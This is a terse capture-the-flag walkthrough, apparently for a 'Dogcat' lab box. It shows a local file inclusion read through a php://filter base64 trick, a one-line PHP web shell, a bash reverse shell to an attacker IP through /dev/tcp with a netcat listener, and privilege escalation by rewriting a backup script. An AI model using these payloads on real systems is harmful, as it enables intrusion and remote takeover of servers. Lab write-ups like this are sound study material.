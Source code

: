 ### Dogcatvm

10.10.185.221

## nmap

#ssh
OpenSSH 7.6p1

#tcp
Apache/2.4.38

parameter view is local file inclusion
# file inclusion filter base64
php://filter/convert.base64-encode/resource=cats/../index

#inject php reverse shell

<?php system($_GET['cmd']); ?>

# reverse shell

(nc listen: `sudo nc -l 1234`)
%26: &

http://<box-ip>/test.php?cmd=echo "<?php exec('/bin/bash -c \'bash -i >%26 /dev/tcp/<my-ip>/1234 0>%261\'');?>" > test2.php

# /opt/backup

backup sh file, rewrote and got second shell